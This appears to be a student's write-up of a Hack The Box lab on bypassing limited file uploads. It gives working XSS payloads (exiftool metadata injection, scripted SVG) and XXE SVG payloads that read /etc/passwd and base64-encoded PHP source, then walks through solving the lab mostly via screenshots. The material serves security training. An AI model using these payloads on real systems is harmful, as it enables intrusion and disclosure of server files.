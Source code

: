 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

If the web applications displays an image's metadata after its upload, we can perform the following attack:
- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
  `Note`: It is possible to perform this attack using one of the Metadata parameters that accept raw text, like the `Comment` or 
  `Artist` parameters. Furthermore, if we change the image's `MIME-Type` to `text/html`, some web applications may show it as an HTML 
  document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
---
## `.svg` Attacks
- Custom `.svg` image:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
      <circle cx="50" cy="50" r="40" fill="red" />
  </svg>
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
## Common file disclosure
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
## Source code file Disclosure
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```

Another similar attack that is also achievable through these file types is an SSRF attack. We may utilize the XXE vulnerability to enumerate the internally available services or even call private APIs to perform private actions.
---

## Exercise

We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)

Since only `.svg` extensions are allowed, we attempt to upload a basic `.svg` image:
![image](https://github.com/user-attachments/assets/c958b80b-f3c5-4f0c-ba94-362fc3033bca)
We discover that the page is displaying the image previously loaded by reading de source code from the backend:
![image](https://github.com/user-attachments/assets/120ad4f8-7ab8-42c7-93cc-d1904a5ecd0b)
![image](https://github.com/user-attachments/assets/eae9ef81-0d82-4812-89c1-34f48ad16fdf)



We performed a `XSS` attack via `.svg` upload:
![image](https://github.com/user-attachments/assets/1d6ebcf9-91d4-4f2f-b4e9-fed9a43451ab)
![image](https://github.com/user-attachments/assets/272a725a-ae20-4873-b278-32c3e253d3f1)
![image](https://github.com/user-attachments/assets/06358b9a-0a9e-48fa-b253-d6687a6899b7)

Then we performed a `XXE` attack in order to get the content of the `/flag.txt` file:
![image](https://github.com/user-attachments/assets/d9f1a541-f7fb-4ab3-97e7-dac94709eac5)
![image](https://github.com/user-attachments/assets/fa0b467f-639f-4f5d-97f1-fe024e57d6fa)


To read the source code of `upload.php` we perform a `XXE` attack via `PHP Wrapper`:
![image](https://github.com/user-attachments/assets/ff931621-7fcc-4075-9c62-a9153bc23c57)
![image](https://github.com/user-attachments/assets/7beb39b8-141b-46f0-8e7a-3404be459892)

Then we get de raw source code and solve the lab:
![image](https://github.com/user-attachments/assets/282bacad-57ed-49dd-aa1c-2c819661e353)






